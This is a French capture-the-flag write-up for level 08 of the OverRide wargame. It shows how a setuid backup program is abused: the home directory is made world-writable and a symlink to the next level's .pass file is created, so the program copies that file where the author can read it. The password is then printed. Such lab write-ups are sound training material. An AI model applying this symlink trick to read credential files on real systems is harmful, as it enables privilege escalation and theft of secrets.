 # Level 08

### Protections

![](Ressources/protections.png)

### Exploitation

Le programme recoit en argument un chemin vers un fichier qu'il va ouvrir.

Il ouvre egalement un fichier a la destination `./backups/.log` et **prepare la creation d'une copie de notre fichier dans ce meme repertoire**.

On constate la presencde du **FULL RELRO** et de **Canary**, ce qui complique les exploitations directes du programme tel que les Buffer Overflows, ou les Ret2Libc.

On dispose des permissions de lecture sur les copies dans `~/backups/`.

Ayant fait **SnowCrash** et **Rainfall**, on se demande si le programme ne peut pas simplement ouvrir `/home/users/level09/.pass`.

```none
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Non, le parsing du programme fait qu'une erreur apparait, mais du coup, peut-etre juste faire un lien symbolique ? Dans notre home ?

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
ln: failed to create symbolic link `mouahahah': Permission denied
```

Wait..

`level08@OverRide:~$ chmod 777 .`

Voila:

```
level08@OverRide:~$ ln -s /home/users/level09/.pass mouahahah
level08@OverRide:~$ ./level08 mouahahah
level08@OverRide:~$ cat backups/mouahahah 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

**fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
